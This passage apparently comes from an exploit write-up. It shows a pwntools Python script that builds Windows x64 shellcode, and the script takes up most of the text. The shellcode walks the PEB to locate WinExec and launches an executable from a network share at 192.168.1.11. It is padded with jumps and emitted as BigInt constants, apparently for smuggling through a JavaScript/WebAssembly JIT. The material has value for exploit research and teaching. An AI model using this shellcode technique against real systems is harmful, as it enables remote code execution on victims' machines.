 resulting in the string pointer being written to rsp. At the end we can do a:
```
mov rcx, rsp; push 0x0; pop rdx;
sub rsp, 0x30; // caller function room
call rbx;
```

Writing this to a python script:
```python
import pwn

file_path = b"\\\\192.168.1.11\\share\\shl.exe"[::-1].hex() # need to reverse string due to how its being written

win_exec_offset = "0x068820"

pwn.context.arch = "amd64"

sc = [
        pwn.asm("int3"), # breakpoint for debugging
        pwn.asm("xor rbx, rbx"),
        pwn.asm("mov rbx, gs:[rbx + 0x60]"),
        pwn.asm("mov rbx, [rbx+0x18]"),
        pwn.asm("mov rbx, [rbx+0x20]"),
        pwn.asm("mov rbx, [rbx]"),
        pwn.asm("mov rbx, [rbx]"),
        pwn.asm("mov rbx, [rbx+0x20]"),
        pwn.asm(f"mov eax, {win_exec_offset}"),
        pwn.asm("add rbx, rax"),

        pwn.asm("push 0x" + file_path[0:8]),
        pwn.asm("xor rax, rax"),
        pwn.asm("mov eax, 0x" + file_path[8:16]),
        pwn.asm("shl rax, 0x20"),
        pwn.asm("or rax, 0x" + file_path[16:24]),
        pwn.asm("push rax"),
        pwn.asm("mov eax, 0x" + file_path[24:32]),
        pwn.asm("nop; shl rax, 0x20"),
        pwn.asm("or rax, 0x" + file_path[32:40]),
        pwn.asm("nop; push rax"), # so wasm wont optimise the same qword
        pwn.asm("mov eax, 0x" + file_path[40:48]),
        pwn.asm("nop; nop; shl rax, 0x20"),
        pwn.asm("or rax, 0x" + file_path[48:56]),
        pwn.asm("nop; nop; push rax"),

        pwn.asm("mov rcx, rsp; push 0x0; pop rdx"),
        pwn.asm("sub rsp, 0x30; call rbx")

]
for i in range(len(sc)):
    sc[i] = sc[i].ljust(6, pwn.asm("nop"))  
    if i != len(sc) - 1:
        sc[i] += pwn.asm("jmp $+0x9")
    sc[i] = int(sc[i][::-1].hex(), 16) # js will load it "backwards"
    print(hex(sc[i]) + "n,")

```
